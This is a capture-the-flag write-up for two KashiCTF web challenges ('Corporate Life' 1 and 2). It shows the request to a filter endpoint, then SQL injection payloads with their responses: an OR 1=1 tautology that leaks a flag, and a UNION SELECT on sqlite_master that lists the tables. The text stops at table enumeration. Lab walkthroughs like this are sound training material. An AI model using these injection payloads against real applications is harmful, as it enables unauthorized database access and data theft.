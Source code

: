 accessing the endpoint and seeing how request is made we get something like 

```http
POST /api/list-v2 HTTP/1.1
Host: kashictf.iitbhucybersec.in:5727
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://kashictf.iitbhucybersec.in:5727/
Connection: keep-alive
Cookie: session=caf62b89-3555-4188-be8c-ea9379bd7e7d.d-XmBhNu0KeC4wOAuoargANfRms
Content-Type: application/json
Content-Length: 32

{
	"filter": ""
}
```
being requested in the home page. Try generic SQLi and it returned the flag, this shows requests with status of any value 

```json
//req
{
	"filter": "a' OR 1=1-- -"
}

// response
// [ ...
{"employee_name":"peter.johnson","request_detail":"Shitty job, I hate working here, I will leak all important information like KashiCTF{s4m3_old_c0rp0_l1f3_i1xudBBY}","status":"denied","department":"Logistics","role":"Supply Chain Manager","email":"peter.johnson@corp.com"},
//... ]
```
## Corporate Life 2 
The disgruntled employee also stashed some company secrets deep within the database, can you find them out?

### solution
Similar to part 1 but he have to exfiltrate data now

Fingerprint first what database were dealing
```sql
@@version
sqlite_version() 
```

Get Tables
```json
// request 
{"filter":"1' UNION SELECT null,null,null,null,sql,sqlite_version() FROM sqlite_master-- -"}

// response 
{"employee_name":null,"request_detail":null,"status":null,"department":null,"role":"CREATE TABLE flags (\n      request_id INTEGER,\n      secret_flag TEXT,\n      FOREIGN KEY (request_id) REFERENCES requests(id)\n    )","email":"3.44.2"},
```
